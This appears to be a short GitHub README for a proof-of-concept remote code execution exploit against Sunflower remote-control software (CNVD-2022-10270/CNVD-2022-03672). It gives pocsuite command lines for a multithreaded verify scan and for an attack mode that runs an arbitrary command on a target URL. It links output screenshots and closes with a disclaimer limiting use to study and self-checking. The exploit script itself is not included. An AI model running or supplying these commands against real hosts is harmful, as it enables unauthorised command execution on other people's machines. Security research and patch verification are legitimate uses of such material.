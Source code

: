 # sunflower_RCE_POC（CNVD-2022-10270/CNVD-2022-03672）
##2022-03-04
###think@f0ng
en_sunflower_RCE_POC
POC:pocsuite -r en_sunflower_RCE_POC.py -u url --verify --thread 10
![1645599856(1)](https://user-images.githubusercontent.com/54984589/155274394-b8e92e9e-d860-4578-9bf1-fd6ca2b2dd5e.png)

EXP:pocsuite -r en_sunflower_RCE_POC.py -u url --attack --command [command]
![1645600033(1)](https://user-images.githubusercontent.com/54984589/155274717-cc23aa93-7a56-4ecd-a8a6-10719647f37f.png)


# 免责声明
## 此工具仅用于学习、研究和自查。不应将其用于非法目的。使用本工具产生的一切风险与我无关！
# Disclaimer
## This tool is for study, research, and self-examination only. It should not be used for illegal purposes. All risks arising from the use of this tool have nothing to do with me!
